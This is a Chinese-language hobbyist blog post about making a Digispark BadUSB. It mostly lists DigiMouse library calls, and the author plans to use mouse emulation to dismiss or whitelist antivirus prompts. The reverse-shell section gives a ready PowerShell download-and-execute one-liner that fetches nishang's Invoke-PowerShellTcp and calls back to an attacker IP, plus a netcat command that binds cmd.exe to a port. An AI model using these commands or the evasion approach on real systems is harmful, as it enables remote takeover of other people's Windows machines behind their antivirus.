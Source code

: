 # windows反弹shell，msf生成后门，绕过杀软以及badusb下

## digispark模拟鼠标操作

先说下之前对鼠标的尝试。一是同时用DigiMouse.h和DigiKeyboard.h编译会报错。。我觉得应该是内存不够的原因。毕竟这个8块钱的小家伙内存小的可怜。。要不就真的是两个库不兼容了，估计就得整俩，一个模拟键盘一个模拟鼠标，靠多头usb线同时接上去，控制好每个指令的时间差，实现鼠标键盘配合使用。（准备再买俩试试，另外还是想试试leonardo...便宜果然还是有便宜的原因的）

为什么要模拟鼠标呢，我觉得模拟鼠标的好处是能解决杀软的问题，既然taskkill关不掉杀软就模拟鼠标来关，或者不关，直接根据杀软捕捉到可以进程弹窗时添加信任区，这是只靠键盘做不到的。

另外个人感觉如果不作为badusb用的话，拿来写点脚本当按键精灵用也挺方便的，比如记录一些常用的指令阿打开一些常用的东西之类的，插上就帮你实现，倒也蛮方便（我是懒狗

然后是单独的用法：

`#include <DigiMouse.h>`引入digispark的鼠标库

`DigiMouse.moveY(10)`像下移动10

`DigiMouse.moveY(-10)`像上移动10

`DigiMouse.moveX(20)`向右移动20

`DigiMouse.moveX(-20)`向左移动20

`DigiMouse.move(X, Y, scroll)`配合使用

`DigiMouse.setButtons(1<<0)`左键按下

`DigiMouse.setButtons(0)`松开所有按键

`DigiMouse.middleClick()`中键点击

`DigiMouse.rightClick()`右键点击

`DigiMouse.leftClick()`左键点击

`DigiMouse.delay(500)`延迟50ms

`DigiMouse.scroll(5)`滚轮向下

要坐标就用之前python那个读取坐标就可


## 反弹shell

windows反弹shell好像都是通过powershell去下载相应powershell脚本并执行来反弹，下面是找到的一个可用的，其余的这里有很多：<a href='https://github.com/samratashok/nishang'>nishang框架传送门</a>

`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress xxx.xxx.xxx.xxx -port 6666`

用上面的脚本就会发现，被杀软拦了，至少我火绒是拦了，其他的没试（不想看杀软内战233333）。


netcat也能弹shell，可惜如果拿到一个普通的windows系统并没有一个简单的按照netcat的方式，且netcat会被杀软拦（md上次打比赛打个nc火绒直接就给我删了

`nc -lvp 端口 -e cmd.exe`连进来就能执行指令了


<img src='https://0xfay.github.io/public/image/004108.jpg'>
